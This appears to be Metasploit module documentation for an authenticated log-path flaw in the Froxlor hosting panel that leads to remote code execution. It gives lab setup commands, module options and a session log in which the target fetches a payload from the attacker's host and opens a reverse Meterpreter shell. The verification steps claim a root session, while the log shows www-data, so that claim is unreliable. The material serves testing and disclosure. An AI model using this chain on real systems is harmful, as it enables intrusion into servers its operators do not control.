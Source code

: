 ## Vulnerable Application

Froxlor is an open source web hosting control panel. Froxlor v2.0.6 and below suffers from a bug that allows
authenticated users to change the application logs path to any directory on the OS level which the user www-data can
write without restrictions from the backend which leads to writing a malicious Twig template that the application will
render. That will lead to achieving a remote command execution under the user www-data.

### Setup
Install php 8.1 and MySQL. Download the vulnerable Froxlor application and place it in Ubuntu's default webroot. The
below instruction set should be able to be copy and pasted into a terminal in order to deploy a vulnerable application.
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install php8.1
sudo apt install php8.1-common php8.1-mysql php8.1-xml php8.1-xmlrpc php8.1-curl php8.1-gd php8.1-imagick php8.1-cli php8.1-dev php8.1-imap php8.1-mbstring php8.1-opcache php8.1-soap php8.1-zip php8.1-redis php8.1-intl php8.1-gmp php8.1-bcmath -y
wget https://files.froxlor.org/releases/froxlor-2.0.3.tar.gz
gunzip froxlor-2.0.3.tar.gz
tar -xvf froxlor-2.0.3.tar
sudo rm /var/www/html/index.html
sudo cp -r froxlor /var/www/html/
cd /var/www/html/
sudo chown -R www-data:www-data ./
sudo apt install mysql-server
`sudo systemctl start mysql.service`
sudo mysql
mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'notpassword';
mysql> quit;
sudo systemctl restart apache2
```

After the above completes successfully, navigate to http://localhost/froxlor to finish the web-based portion of the
installation. Accept the EULA and input the database credentials and then start the application.

## Options

### TARGETURI

The base URI path of Froxlor. **Default: /froxlor**

### WEB_ROOT

The webroot of the Froxlor server. The webroot must be known in order to write the absolute path of the logfile. The
default options assumes Froxlor is installed on an Ubuntu machine: **Default: /var/www/html**


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/froxlor_log_path_rce`
1. Set the `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Ubuntu 20.04, Froxlor 2.0.3 running on Apache, MySQL and PHP 8.1
```
msf6 > use exploit/linux/http/froxlor_log_path_rce
[*] Using exploit/linux/http/froxlor_log_path_rce
msf6 exploit(linux/http/froxlor_log_path_rce) > set rhosts 172.16.199.140
rhosts => 172.16.199.140
msf6 exploit(linux/http/froxlor_log_path_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/froxlor_log_path_rce) > set lport 9191
lport => 9191
msf6 exploit(linux/http/froxlor_log_path_rce) > set username admin
username => admin
msf6 exploit(linux/http/froxlor_log_path_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/froxlor_log_path_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:9191
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successful login
[+] The target appears to be vulnerable. Vulnerable version found: 2.0.3
[+] Successfully Logged in!
[+] CSRF token is : 5701b7e6335ab13e20e91845b210b6be0bea7621
[+] Changed logfile path to: /var/www/html/froxlor/templates/Froxlor/footer.html.twig
[*] Using URL: http://172.16.199.1:8080/ygs3pAWMRNIs
[+] Injected payload sucessfully
[*] Changing logfile path back to default value while triggering payload: /var/www/html/froxlor/logs/froxlor.log
[*] Client 172.16.199.140 (Wget/1.20.3 (linux-gnu)) requested /ygs3pAWMRNIs
[*] Sending payload to 172.16.199.140 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045348 bytes) to 172.16.199.140
[*] Cleaning up...
[*] Deleting tampered footer.html.twig file
[*] Rewriting clean footer.html.twig file
[*] Meterpreter session 3 opened (172.16.199.1:9191 -> 172.16.199.140:50398) at 2023-02-13 18:20:02 -0500
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.16.199.140
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
